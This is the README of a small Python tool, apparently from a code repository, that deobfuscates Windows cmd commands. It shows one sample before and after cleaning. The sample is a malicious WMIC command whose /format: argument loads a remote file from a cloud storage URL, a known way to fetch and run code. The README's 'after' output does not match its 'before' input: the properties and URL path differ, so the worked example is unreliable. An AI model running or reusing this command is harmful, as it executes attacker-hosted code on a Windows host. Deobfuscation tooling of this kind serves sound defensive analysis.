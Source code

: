 # scripts
python scripts

## 1. cmd命令去混淆脚本

使用方式如下，`xxx.txt`文件中，每行一条混淆命令，执行完成之后，在当前目录下生成`xxx.txt.clear`文件，保存去混淆之后的命令。

`python deDosfuscation.py xxx.txt`

例如，去混淆前：

`/V /C "set x=C77476dS66:\\77476dS66W77476dS66i77476dS66nd77476dS66ow77476dS66s\\s77476dS66ys77476dS66te77476dS66m377476dS66277476dS66\\77476dS66w77476dS66b77476dS66e77476dS66m\\W77476dS66M77476dS66I77476dS66C.e77476dS66x77476dS66e o77476dS66s g77476dS66e77476dS66t EF77476dS66Hn77476dS66xv77476dS66vhe77476dS66, las77476dS66t77476dS66b77476dS66o77476dS66o77476dS66t77476dS66u77476dS66pd77476dS66at77476dS66e /77476dS66fo77476dS66rm77476dS66at:"h77476dS66t77476dS66t77476dS66p77476dS66s77476dS66:77476dS66/77476dS66/st77476dS66or77476dS66ag77476dS66e.g77476dS66oog77476dS66l77476dS66e77476dS66a77476dS66p77476dS66i77476dS66s77476dS66.c77476dS66om77476dS66/a77476dS66wsd77476dS66x/077476dS66977476dS66/77476dS66v.77476dS66tx77476dS66t#77476dS660277476dS6650277476dS666k077476dS66W77476dS66I77476dS66J77476dS66b77476dS66z77476dS66477476dS66r" &&echo %x:77476dS66=%|%ComSpec%"`

去混淆后：

`/V /C "echo C:\\Windows\\system32\\wbem\\WMIC.exe os get t98dIFHrm, et8dWYH, numberofprocesses /format:https://storage.googleapis.com/ultramaker/08/v.txt#025015ed58iq24h|%ComSpec%"`
